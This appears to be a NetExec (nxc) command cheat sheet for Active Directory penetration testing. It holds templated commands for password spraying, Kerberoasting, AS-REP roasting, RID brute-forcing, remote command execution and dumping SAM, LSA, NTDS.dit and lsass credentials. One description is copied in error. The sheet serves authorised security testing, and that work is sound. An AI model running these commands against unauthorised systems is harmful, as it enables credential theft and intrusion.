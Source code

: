 # netexec 


#nxc
## nxc - spider
```
nxc smb <target_ip> -u <user> <auth> -d <domain> --spider <share> --pattern . 
```

## nxc - enumerate shares
```
nxc smb <target_ip> -u <user> <auth> -d <domain> --shares
```

## nxc - ldap query
```
nxc ldap <target_ip> -u <user> <auth> -d <domain> --query "(<query>)" "<attribute>|*" 
```

## nxc - generate hosts file
```
nxc smb <target_ip> --generate-hosts-file <hosts-file|/etc/hosts>
```

## nxc - generate krb5 file
```
nxc smb <target_ip> --generate-krb5-file <krb5-file|/etc/krb5.conf>
```

## nxc - generate hosts and krb5 file
```
nxc smb <target_ip> --generate-hosts-file <hosts-file|/etc/hosts> && nxc smb <target_ip> --generate-krb5-file <krb5-file|/etc/krb5.conf>
```

## nxc - generate tgt
```
nxc smb <dc_fqdn> -u <user> <auth> -d <domain>  --generate-tgt <output-file|$USER>
```

## nxc - export users
```
nxc smb <target_ip> -u <user> <auth> -d <domain>  --users-export <output-file>
```

## nxc rid users awk - get domains users from rid brute
```
nxc smb <target_ip> -u <user> <auth> -d <domain> --rid 10000 | awk -F \\ '/SidTypeUser/ {print $2}' | cut -d '(' -f1
```

## nxc - rid users
```
nxc smb <target_ip> -u <user> <auth> -d <domain> --rid 10000
```

## nxc - use kcache
```
nxc <protocol> <dc_fqdn> --use-kcache
```

## nxc - guest login auth
```
nxc smb <target_ip> -u "guest" -p "" --shares
```

## nxc - null login auth
```
nxc ldap <target_ip> -u "" -p ""
```

## nxc - Dump SAM

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account

```bash
nxc smb <ip> -u <user> <auth> -d <domain> --sam
```

## nxc - Dump LSA

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> <auth> -d <domain> --lsa
```

## nxc - dump ntds.dit

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <ip> -u <user> <auth> -d <domain> --ntds
```

## nxc - dump lsass

```bash
nxc smb <ip> -u <user> <auth> -d <domain> -M lsassy
```

## nxc - dump lsass - with bloodhond update

```bash
nxc smb <ip> --local-auth -u <user> -H <<nt_hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## nxc - password spray (user=password)

```bash
nxc smb <dc_ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## nxc - password spray multiple test 

(careful on lockout)

```bash
nxc smb <dc_ip> -u <user.txt> -p <password.txt> --continue-on-success
```

## nxc - put file
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> <auth> --put-file <local_file> <remote_path> --share <share>
```

## nxc - get file
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> <auth> --get-file <remote_path> <local_file> --share <share>
```

## nxc - ASREPRoast enum without authentication

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## nxc - ASREPRoast enum with authentication

Hashcat format  -m 18200 

```bash
nxc ldap <ip> -u <user> <auth> --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## nxc - Kerberoasting

Hashcat format  -m 13100

```bash
nxc ldap <ip> -u <user> <auth> --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## nxc - Unconstrained delegation

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
nxc ldap <ip> -u <user> <auth> --trusted-for-delegation
```

## nxc - winrm-auth

```bash
nxc winrm <ip> -u <user> <auth>
```

## nxc - mssql password spray

```bash
nxc mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## nxc - mssql execute query

```bash
nxc mssql <ip> -u <user> <auth> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## nxc - mssql execute command

```bash
nxc mssql <ip> -u <user> <auth> --local-auth -x <cmd>
```


